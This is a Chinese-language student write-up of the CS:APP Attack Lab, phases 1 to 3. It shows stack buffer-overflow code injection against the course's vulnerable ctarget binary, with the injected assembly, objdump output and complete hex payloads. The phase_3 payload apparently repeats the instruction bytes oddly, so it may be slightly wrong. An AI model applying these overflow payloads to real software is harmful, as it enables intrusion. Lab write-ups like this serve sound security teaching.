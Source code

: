 # Attacklab

做到这个lab才发现有writeup。

## phase_1

目标是通过注入实现调用touch1函数。

先用objdump -d把汇编代码搞出来，查看getbuf和test函数开了多大的栈空间。我这里的getbuf开的是0x28，那就构造一个40个字节的输入数据先填满它，再构造一个8字节的数据覆盖test函数在栈里的位置，程序就会执行那8个字节指向位置的代码了。

这里要我们执行touch1函数，在汇编代码里查看其对应字节是00000000004017c0，注意要改成小端法表示，加到那40个字节后面即可。

随后`./hex2raw -i touch1.txt | ./ctarget -q`即完成phase_1。

## phase_2

目标是通过注入代码实现调用touch2并把参数设置成自己的cookie(我的cookie是0x59b997fa）。

注入的代码中不能含有call和jmp指令，因此要调用touch2函数，只好先将touch2函数的地址压入栈中，随后借助ret指令执行。

因此要注入的代码如下

```c
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```

如何注入？首先将上述代码保存为touch2.s，通过gcc touch2.s -c 命令将其编译但不链接，生成touch2.o文件。随后通过objdump touch2.o -d 即可得到上述汇编代码对应的字节码

```shell
root@YJMSTR-Alienware17:/mnt/c/csapp/attacklab/target1# objdump -d touch2.o

touch2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

我们要的是`48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3`.

随后根据上述数据构造48字节的输入数据，前40个字节包含我们的攻击代码，最后8个字节覆盖原先栈中的返回地址，使其指向我们注入的代码的起始地址。

可以在gdb中通过单步调试和layout reg获取%rsp的值，用于计算我们注入的代码的起始地址。在getbuf函数打个断点，当程序运行到这个断点时，%rsp的值为 0x5561dca0，再单步执行一步，把它减去0x28，即为我们输入的字节码存放的起始地址0x5561dc78 。由于x86-64的linux系统是小端法表示，需要将其写成78 dc 61 55 00 00 00 00.

最终我们的输入文件touch2.txt中的内容如下

```assembly
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 dc 61 55 00 00 00 00
```

执行命令`./hex2raw -i touch2.txt | ./ctarget -q `，即完成phase_2.

## phase_3

writeup中给出了hexmatch函数和touch3函数的c代码，其中hexmatch函数比较unsigned类型的一个参数和char* 指向的字符串的16进制表示是否相同。而touch3在调用hexmatch来比较cookie和传入的字符串参数sval。

我们的目标是通过注入代码调用touch3并将cookie作为字符串形式的参数传入。

我的cookie是0x59b997fa，按照writeup中的要求应写为8个从高位到低位排序的16进制数（不含前导0x），即对应的字节码为`35 39 62 39 39 37 66 61`。而c语言中字符串以'\0'结尾，因此在上述字节码的结尾还需要加入一个`00`，最终cookie对应的字符串参数的字节码为`35 39 62 39 39 37 66 61 00`.

注意到`When functions hexmatch and strncmp are called, they push data onto the stack, overwriting
portions of memory that held the buffer used by getbuf. ` 我们用getbuf()的栈帧就不太合适了，考虑把字符串存在更高的位置，使用test()的栈帧。将字符串作为参数传递时，寄存器中存放的是字符串的地址，此处我们使用了test栈帧中的地址。

getbuf被调用后的栈长这样

```assembly
test对应的栈帧 {
	
	返回地址{}
}
getbuf的栈帧 {
	输入的字节码（从下往上存）{}
}
```

返回地址中要存放我们输入的字节码对应的起始地址，%rdi要被设置为字符串的存放地址，由于上述原因，字符串存放在test对应栈帧中比较安全，因此我们在填充完返回地址后加上字符串对应的字节码，字符串对应的存放地址即为getbuf调用前一条指令时rsp指向的地址，在本机是0x5561dca8。

与phase_2类似，要注入的代码如下

```
movq	$0x5561dca8, %rdi
pushq	$0x4018fa
ret
```

objdump -d 得

```assembly
root@YJMSTR-Alienware17:/mnt/c/csapp/attacklab/target1# objdump touch3.o -d

touch3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
   7:   68 fa 18 40 00          pushq  $0x4018fa
   c:   c3                      retq
```

对应的字节码是`48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3 00 00 00 00 00 00 00 48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3 00 00 00 00 00 00 00 78 dc 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00` ,将其保存为touch3.txt，输入`./hex2raw -i touch3.txt | ./ctarget -q`即通过phase_3.

